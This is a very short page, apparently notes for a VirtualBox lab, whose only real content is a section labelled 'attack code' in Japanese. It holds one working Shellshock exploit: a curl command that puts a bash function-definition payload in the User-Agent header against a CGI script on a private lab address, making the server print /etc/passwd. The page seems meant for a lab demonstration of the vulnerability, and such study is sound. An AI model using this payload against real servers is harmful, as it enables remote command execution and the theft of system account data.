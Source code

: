 virtualboxの設定
================

Overview

攻撃コード

curl -A "() { :;};echo Content-type:text/plain;echo;/bin/cat /etc/passwd" http://192.168.33.35/cgi-bin/shellshock.cgi

